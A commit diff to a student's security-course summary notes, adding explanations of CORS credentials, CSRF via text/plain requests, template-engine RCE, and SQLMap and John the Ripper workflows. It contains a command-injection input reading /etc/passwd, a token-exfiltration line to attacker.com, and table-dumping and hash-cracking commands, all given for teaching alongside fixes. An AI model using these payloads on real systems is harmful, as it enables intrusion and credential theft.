

Before and after one commit to boostvolt/zhaw-summaries, a Typst document (Semester 7/Software & System Security 1/main.typ): pages 4 and 5 of 5 before the commit and pages 4 and 5 of 6 after it, joined at a grey line. Compiled offline with Typst 0.15; a missing font is replaced by an installed copy or a similar font.

Commit message:
feat(sss1): add CORS credentials explanation and improve tools section
- Add Access-Control-Allow-Credentials explanation with attack scenarios
- Add CSRF Content-Type bypass with concrete fetch() example
- Add template engines/PDF generators as RCE vectors
- Expand SQLMap and John the Ripper with step-by-step workflows
- Add cewl, reverse shell, and SQLite to tools section
- Remove duplicate Token Storage section
- Fix TODOs and add JSON XSS tip about single quotes

````diff
--- a/Semester 7/Software & System Security 1/main.typ
+++ b/Semester 7/Software & System Security 1/main.typ
@@ -887,11 +887,12 @@
   if (filename.contains("/") || filename.contains("..")) reject();
   ```
 
-  #subinline("Command Injection")
+  #subinline("Command Injection / RCE")
   User input passed to shell without sanitization → *RCE* (Remote Code Execution).
   - Metacharacters: `;` (chain), `&&` (on success), `||` (on failure), `|` (pipe)
   - Example: `ping $input` → attacker sends `127.0.0.1; cat /etc/passwd`
-  - *Fix*: Use `ProcessBuilder` with array args (no shell), or whitelist allowed values
+  - *Template engines / PDF generators*: User input evaluated as code → RCE (look for `${...}` syntax)
+  - *Fix*: Use `ProcessBuilder` with array args (no shell), whitelist values, sandbox PDF generation
 
   #subinline("Encoding Attacks")
   Input validation alone may not prevent attacks if app decodes data later.
@@ -1060,8 +1061,16 @@
   config.setAllowedOrigins(Arrays.asList("https://localhost:8081")); // NOT "*"!
   config.setAllowedMethods(Arrays.asList("OPTIONS", "GET", "POST", "DELETE"));
   config.setAllowedHeaders(Arrays.asList("*"));
+  config.setAllowCredentials(true); // Only if cookies needed!
   ```
-  // TODO: explain this fucking headers also with credentials allow and also the content type shit
+
+  #subinline("Access-Control-Allow-Credentials")
+  *Only needed when JS uses* `credentials: 'include'` (to send cookies cross-origin):
+  - Without it: JS can read *public* data (no cookies sent, unauthenticated)
+  - With it: JS can read *private* data (cookies sent, authenticated as victim!)
+  - Cannot use with `Access-Control-Allow-Origin: *` (browser blocks this combo)
+  - *Attack*: If server reflects any origin + allows credentials → attacker reads victim's authenticated data
+
   #subinline("CORS Origin Reflection Attack")
   Server blindly reflects any `Origin` header → complete data theft:
   ```java
@@ -1081,14 +1090,9 @@
   #subinline("CSRF Content-Type Bypass")
   `Content-Type: text/plain` = "simple request" → *no CORS preflight*!
   - Server may still parse body as JSON despite wrong Content-Type
-  - Attacker sends `text/plain` with JSON body + victim's cookies → CSRF works
+  - Attack: `fetch(url, {method:'POST', mode:'no-cors', credentials:'include', headers:{'Content-Type':'text/plain'}, body:JSON.stringify(data)})`
+  - `mode:'no-cors'` = don't read response (avoids CORS block), `credentials:'include'` = send victim's cookies
   - *Fix*: Validate Content-Type header server-side, use SameSite cookies
-
-  #subinline("Token Storage")
-  - *Session storage* (preferred): private per tab, deleted on browser close
-  - *Local storage*: shared across tabs, persists (XSS in one tab compromises all)
-  - *Cookies*: BAD! Even `HttpOnly` cookies sent with `credentials:"include"` → CSRF possible
-    - `HttpOnly` only prevents *stealing* (`document.cookie`), not *sending*!
 
   #subinline("XSS in SPAs")
   - *Server XSS*: Not an issue (no HTML generated server-side in pure SPAs)
@@ -1103,6 +1107,7 @@
   - Browser executes `<script>` in JSON response as HTML
   - Attacker stores JS in comment field → victim views → token stolen via `<img src="attacker.com?t=TOKEN">`
   - `<img>` bypasses CORS (only applies to fetch/XHR, not HTML tags)
+  - *Tip*: JSON escapes double quotes → use single quotes in XSS payloads
   - *Fix*: Return correct `Content-Type: application/json`, sanitize input
 
   #inline("Security Checklist")
@@ -1366,13 +1371,21 @@
   *Signatures*: `SHA256withRSA`, `SHA512withRSA`, `SHA3-256withRSA`
 
   #inline("Recon & Exploitation Tools")
-  - *Directory discovery*: `gobuster dir -u https://target -w /usr/share/wordlists/dirb/common.txt`
-    - Add `-d` flag to detect backup files (`file~`, `.file.swp`)
-  - *SQLMap*: `sqlmap -r request.txt --force-ssl --dbs` (auto SQLi, `--technique=B` for blind only)
-  - *John the Ripper*: `john --format=raw-sha256 --wordlist=wordlist.txt hashes.txt` (format: `user:hash`)
-  - *JWT decode*: `echo 'eyJhbG...' | cut -d'.' -f2 | base64 -d` or use jwt.io
-  - *Burp Suite*: Intercept/modify requests, Intruder for fuzzing, Sequencer for session analysis
-  - *ZAP*: Alternative to Burp, Fuzzer not rate-limited
-  - *Request Catcher*: Receive exfiltrated data (requestcatcher.com) - use `/debug` endpoint to view requests
-  - *curl with auth*: `curl -u "user:pass" https://target` | with proxy: `curl -x http://127.0.0.1:8080`
-  - *Check IP via Tor*: `proxychains -q curl -s ifconfig.io`
+
+  #subinline("SQLMap (auto SQLi)")
+  Found a suspicious parameter? Save request from Burp → Run SQLMap:
+  1. In Burp: Right-click request → "Copy to file" → `request.txt`
+  2. `sqlmap -r request.txt --force-ssl --dbs` → lists databases if vulnerable
+  3. `sqlmap -r request.txt --force-ssl -D dbname --tables` → list tables
+  4. `sqlmap -r request.txt --force-ssl -D dbname -T users --dump` → dump table
+
+  #subinline("John the Ripper (password cracking)")
+  Found password hashes in database? Crack them:
+  1. Create `hashes.txt` with format `username:hash` (one per line)
+  2. `john --wordlist=rockyou.txt hashes.txt` → cracks with wordlist
+  3. `john --show hashes.txt` → show cracked passwords
+  - *SHA256*: `--format=raw-sha256`
+  - *Salted SHA256* `sha256(salt+pass)`: `--format=dynamic_61` (format: `user:hash$salt`)
+  - *JWT*: `john jwt.txt` (auto-detects HMAC-SHA256)
+
+  #subinline("Other Tools")
````
Also changed, not shown: Semester 7/Software & System Security 1/main.typ (6 more changed lines).
